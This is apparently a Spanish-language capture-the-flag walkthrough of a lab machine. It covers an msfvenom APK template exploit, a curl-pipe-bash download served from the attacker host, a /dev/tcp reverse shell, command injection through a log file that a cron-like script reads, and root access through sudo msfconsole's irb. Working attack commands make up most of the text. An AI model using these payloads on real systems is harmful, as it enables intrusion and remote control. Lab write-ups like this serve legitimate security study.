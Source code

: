 ## Summary

- IP -> 10.10.10.226
- Ports -> TCP (22, 5000), UDP (idk)
- OS ->  Ubuntu Focal
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
    - 5000 -> Werkzeug httpd 0.16.1 (python 3.8.5)

## Recon
- Comando -> **whatweb http://10.10.10.226:5000** Miramos el gestor de contenidos

Miramos la pagina Web en ese puerto especifico, y encontramos que:
1. En la primer parte se puede ejecutar el comando nmap
2. En la segunda parte de puede ejecutar por detras el comando msfvenom (Windows, Linux y Android)
3. En la tercer parte se podria estar ejecutando el comando searchsploit

- Comando -> **searchsploit msfvenom** Para buscar vulnerabilidades asociadas con msfvenom, y encontramos una que te crea un APK malicioso
- Comando -> **searchsploit -m msfvenom** Nos traemos el exploit **.py** a nuestra maquina, despues lo miramos con **cat** y en una parte del exploit lo modificamos de la siguiente manera en la parte de payload: 
	nano msfvenom.py
		**payload = 'ping -c 1 10.10.14.17'** Haremos que nos ejecute un ping a nuestra maquina
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK  
- Comando -> **chown omarv:omarv -R /tmp/tmp7/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse, antes de ejecutarlo nos ponemos en escucha
- Comando -> **tcpsump -i tun0 icmp -n** Nos ponemos en escucha para trazas icmp y asi recibir el ping y recibimos los ping

Nos damos cuenta que tenemos ejecucion remota de comandos, por lo que nos creamos un archivo asi:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que nos puedan hacer el curl

Volvemos a modificar el **msfvenom** de la siguiente manera en la parte de payload: 
	nano msfvenom.py
		**payload = 'curl 10.10.14.17 | bash'** Haremos que nos ejecute un curl a nuestra maquina, el cual buscara el index.html que habiamos creado
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK
- Comando -> **chown omarv:omarv -R /tmp/tmp8/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, para recibir la peticion y nos de una revershell

## User
Una vez dentro tratamos la consola 
Nos creamos una pseudo consola con los siguientes comandos.
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

Obtenemos acceso a la maquina victima pero estamos como el usuario kid, por lo que buscamos la flag **user.txt**

Encontramos una dir llamado **logs**, el cual tiene los privilegios 777 y contiene un archivo llamado **hackers** el cual no tiene contenido y si le metemos algo este desaparece, por lo que nos descargaremos el **pspy** para detectar los procesos que estan corriendo.

Buscamos en Google pspy (**pspy-monitor Linux Github**), nos dirigimos a los releases y nos descargamos el **pspy64**, el cual se descargara en la carpeta de Downloads.

- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **upx pspy** Para bajarle el peso al archivo
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que cuando nos hagan un wget puedan cargar el archivo pspy
- Comando -> **wget http:/10.10.14.17/pspy** Para poder cargar un archivo especifico desde una IP, en este caso nuestra IP y nos cargaremos el pspy
En la maquina victima le damos permisos de ejecucion 
- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **./pspy** Ejecutamos el archivo, despues en la pagina web mandamos algo por el campo searchsploit y miramos que sucede

Nos damos cuenta que se esta ajecutando un nmap top 10 open ports, en donde hay un usuario llamado **pwn** que ejecuta un archivo **scanlosers.sh**. Al momento de inspeccionar ese archivo con un **cat**, nos damos cuenta que contine la siguiente:
	nano scanlosers.sh
		#!bin/bash
		log=/home/kids/log/hacker
		cd /home/pwd
		cat $log | cut -d' ' **-f3-** | sort u | while read ip; do
			sh -c "nmap --top-ports 10 -oN reccon/${**ip**}.nmap ${ip} 2>&1 >/dev/null" & 
         done 
         
Podemos que primero usa el archivo **hackers** que habiamos encontrado en el dir log, luego observamos que se mueve de directorio y al archivo hackers le hace un filtro con cut, y despues filtra por el -f3- significa que es el tercer campo, pero tambien nos indica que no solo agarra el tercer argumento que entra, sino que tambien agarra todos los argumentos despues de este, y lo que obtiene es una IP, por lo que ahi podriamos meter codigo para que ese se ejecute. 

Por lo que hacemos lo siguiente:
- **cd /home/kids/logs** Nos metemos al directorio de los log, para modificar el archivo hackers
- **echo "[2022-09-06 20:26:59] 10.10.14.17; ping -c 1 10.10.14.17 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un ping a nuestra maquina por lo que nos ponemos en escucha. 
- **tcpdump -i tun0 icmp -n** Nos ponemos en escucha para recibir los los icmp
Una vez que miramos que si nos dan los ping, hacemos lo siguiente...

- **echo "[2022-09-06 20:26:59] 10.10.14.17; whoami | nc 10.10.14.17 443 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos regresara el usuairo de whoami
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, todo esto con el fin de probar


- **echo "[2022-09-06 20:26:59] 10.10.14.17; curl 10.10.14.17 443 | bash  #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un curl buscando el archivo index.html el cual ya estamos compartiendo y tiene una revershell

Usaremos el comando que ya habiamos creado:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**

- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443

Y asi es como se hace el Pivoting al usuario pwd.

## Root

Una vez siendo el usuario Pwn

- Comando -> **sudo -l** Para ver los privilegios de sudoers, y descubrimos que que podemos ejecutar metasploit como el usuario root sin password (root) NO PASSWD : /opt/metasploit-framework-6.0.9/msfconsole

- Comando -> **sudo msfconsole -q** Abrimos el metaesploit como usuario root

Una vez adentro de metasploit 
- Comando -> **irb** Para conseguir una consola interactiva de Ruby
- >**system("whoami")** Podemos ejecutar comandos
- >**system("bash")** Nos da directamente una consola bash 
